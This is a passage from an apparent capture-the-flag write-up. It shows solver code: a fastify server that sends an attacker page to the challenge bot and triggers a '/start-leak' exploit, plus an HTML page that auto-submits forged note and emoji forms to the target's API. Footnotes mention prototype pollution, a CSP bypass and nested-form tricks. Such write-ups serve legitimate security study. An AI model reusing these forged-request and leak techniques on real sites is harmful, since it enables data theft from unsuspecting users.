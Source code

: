 ```javascript title="index.js"
  });

  fastify.post("/start-leak", async (req, reply) => {
    console.log("leak:");
    exploit();
    return "";
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err.toString());

      await sleep(2 * 1000);
      await reportUrl(
        `${ATTACK_BASE_URL}?${new URLSearchParams({
          baseUrl: "http://web:3000",
        })}`
      );

      await sleep(180 * 1000);
      fail("Failed");
    }
  );
};
start();
```

```html title="index.html"
<body>
  <script>
    const params = new URLSearchParams(location.search);
    const baseUrl = params.get("baseUrl");

    const MAX_FLAG_LENGTH = 16;
    const HEAVY_LEVEL = 20000;

    const sleep = async (msec) =>
      new Promise((resolve) => setTimeout(resolve, msec));

    const createNote = (note) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/create" method="post" target="_blank">
          <input type="text" name="note" value="${note}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const deleteNote = (index) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/delete" method="post" target="_blank">
          <input type="text" name="index" value="${index}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const changeEmoji = (emoji) => {
      const innerHtml = `
        <form action="${baseUrl}/api/emojis/change" method="post" target="_blank">
          <input type="text" name="emoji" value="${emoji}">
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell
